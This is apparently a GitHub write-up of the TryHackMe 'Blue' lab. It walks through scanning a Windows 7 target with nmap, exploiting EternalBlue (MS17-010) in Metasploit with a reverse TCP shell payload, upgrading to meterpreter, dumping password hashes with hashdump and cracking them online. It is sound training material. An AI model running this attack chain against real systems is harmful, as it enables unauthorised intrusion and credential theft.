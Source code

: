 # BLUE
> 4lch3my | March 27, 2023
-------------------
#### This is a machine that allows you to practice web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/blue)

## Tasks
##### 1. Recon
  Scan and learn what exploit this machine is vulnerable to.

<br>

To start, I use [nmap] which is the default option on the personal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP`
The `-sC` flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The `-sV` probes all open ports it finds to determine if we can get the service/version information. `-A` outputs in aggressive mode, so we can follow along with the commands and enumeration.
In our NMAP results, we get:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 18:10 UTC
Nmap scan report for MACHINE_IP (MACHINE_IP)
Host is up (0.00046s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-03-26T18:11:44+00:00
|_ssl-date: 2023-03-26T18:11:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-03-25T18:04:55
|_Not valid after:  2023-09-24T18:04:55
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:7D:FF:18:E3:75 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows .
Nmap done: 1 IP address (1 host up) scanned in 86.79 seconds
```

We can see multiple ports open, but the first thing what my eyes are drawn to is port `445` where a `Windows 7` service is running - `microsoft‑ds`. After a quick google around for `microsoft‑ds`, UI realized this is part of the famous `MS17-010` exploit titled `EternalBlue`. This is a vulnerability posted by Microsoft back in 2017 for vulnerable SMB v1 remote code execution issues. Now that we have what the machine is vulnerable to, time to actually exploit it

##### 2. Gain Access

Right away, let's start `metasploit` a common and very powerful vulnerability exploiter tool. This can be started with the `msfconsole` command. 

<br>

Now, we can search for the `EternalBlue` vulnerability to see if there is a built-in module for this in the tool. This can be run with: `search eternalblue`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_eternalblue.png?raw=true)

To select it, we can run: `use exploit/windows/smb/ms17_010_eternalblue`

And we can see what needs to be changed inside the module with the `options` command:

msf exploit(ms17_010_eternalblue) > options

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_options.png?raw=true)

As we can see, we need to set the `RHOSTS` option, so the exploit can run automatically. We can do this by simply adding:

``` 
set RHOSTS MACHINE_IP
``` 

Also, as requested by the room owner, we will set the payload to `reverese_tcp`:

``` 
set payload windows/x64/shell/reverse_tcp
``` 

Time to run the exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_run.png?raw=true)                                                                              

And there we go, we have access to the machine. On to Task 3
                                                                                              

##### 3. Escalate

The previously gained shell can now be background with the `CTRL + Z` command, so we can continue down the rabbit hole.

<br>

And now we will convert our shell to a `meterpreter shell` right inside `metasploit`! How exiting!

Run the command `search shell_to_meterpreter`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mmfs6_shell_to_met.png?raw=true)

Then `use post/multi/manage/shell_to_meterpreter` & list the sessions with `sessions`:

<br>

Switch:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions.png?raw=true)

And listing sessions: 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions2.png?raw=true)

Then `show options`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_show_options.png?raw=true)

Then `set SESSION 1` & run this upgraded exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade.png?raw=true)

Verify that it was successful:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions.png?raw=true)

And the last step, to actually switch to this upgraded `meterpreter` shell:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions_verify.png?raw=true)

If you want to switch to a PowerShell/Windows CMD shell, you can do by simple running: `shell`.

<br>

WOW! That was a mouthful of information! We can switch to the service `conhost.exe` OR `cmd.exe` on the machine for the verification as well

##### 4. Cracking

After migration to one of the following services `conhost.exe` OR `cmd.exe` in task 3, we can now dump the passwords using the `hashdump` command:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs5_hash.png?raw=true)

To crack our user's password, we can use a site like [THIS ONE](https://crackstation.net/) to do the task for us automatically.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/pasword.png?raw=true)

##### 5. Find flags!

Let's run the command `search -f flag*txt` in the meterpreter session to list all files what are text files `.txt` and have the word `flag` in them:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/flags.PNG?raw=true)

And as you can see, we have found all 3 flags located on this machine.

 #### Thank you for checking out my write-up about the THM room: Blue! If you are interested in other write-ups of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my